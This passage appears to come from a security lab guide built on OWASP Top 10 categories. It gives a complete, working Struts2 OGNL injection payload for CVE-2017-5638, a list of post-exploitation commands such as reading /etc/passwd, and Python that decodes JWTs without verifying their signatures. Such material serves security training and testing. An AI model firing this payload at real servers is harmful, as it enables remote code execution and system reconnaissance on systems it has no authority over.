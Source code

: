 ## A06:2021 – Vulnerable and Outdated Components

### Lab Scenario: Struts2 RCE (CVE-2017-5638)
**Vulnerability**: Remote code execution in Apache Struts 2

#### Exploitation
```http
POST /upload.action HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

Content-Disposition: form-data; name="upload"; filename="%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"

test content
```

#### Impact Assessment
```bash
# Commands executed on vulnerable server
id
uname -a
cat /etc/passwd
netstat -tlnp
```

## A07:2021 – Identification and Authentication Failures

### Lab Scenario: JWT Token Manipulation
**Vulnerability**: Weak JWT implementation allowing signature bypass

#### JWT Analysis
```python
import jwt
import base64
import json

# Captured JWT token
token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGVzdCIsImFkbWluIjpmYWxzZX0.signature"

# Decode without verification
header = jwt.get_unverified_header(token)
payload = jwt.decode(token, options={"verify_signature": False})

print(f"Header: {header}")
print(f"Payload: {payload}")
```
